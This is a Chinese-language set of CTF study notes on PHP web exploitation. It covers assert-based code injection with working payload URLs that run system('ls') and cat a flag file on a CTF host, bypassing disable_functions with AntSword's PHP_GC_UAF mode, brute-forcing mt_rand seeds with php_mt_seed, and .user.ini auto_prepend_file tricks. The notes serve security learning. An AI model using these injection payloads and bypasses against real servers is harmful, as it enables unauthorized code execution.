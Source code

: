 ### assert 执行

注意到 assert("strpos('\$file', '..') === false") or die("Detected hacking attempt!") 这句话，查了一下 strpos，感觉可以拼接一下，但是自己不熟悉 PHP，只能去看题解。

可以执行任何 PHP 命令

构造 \$file='.system('ls').'，意思就是用 . 来拼接 system 的返回结果

http://web.jarvisoj.com:32798/?page='.system('ls').'

http://web.jarvisoj.com:32798/?page='.system('cat templates/flag.php').'

看源码显示的 flag。

### 绕开 disable_functions

`[极客大挑战 2019]RCE ME`
https://blog.csdn.net/qq_45163122/article/details/105914054
https://blog.csdn.net/mochu7777777/article/details/105136633

蚁剑，下载插件绕过 diable_functions, 下载后主界面点击 设置-绕过 diable_functions
选择 PHP_GC_UAF 模式
点击开始

## 随机种子爆破 seed/mt_srand/mt_rand/php_mt_seed

[[GWCTF 2019]枯燥的抽奖](https://github.com/gwht/2019GWCTF/tree/master/wp/web/%E6%9E%AF%E7%87%A5%E7%9A%84%E6%8A%BD%E5%A5%96)
https://xz.aliyun.com/t/3656#toc-3

```python
str1='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
str2='189zmsqgTe'
for c in str2:
    index = str1.index(c)
    print(f'{index} {index} 0 {len(str1)-1} ',end='')
```

方式 1

```
每一们位$number $number 0 length-1
./php_mt_seed 27 27 0 61 34 34 0 61
```

方式 2
./php_mt_seed 1312312312

注意爆出来后要使用对应版本的 php

## php .user.ini

auto_prepend_file 是什么是意思呢。它就是设置页眉和脚注，可以保证它们在每个页面的前后被载入。使用这些指令包含的文件可以像使用 include()语句包含的文件一样

创建.user.ini 文件----UTF8 编码
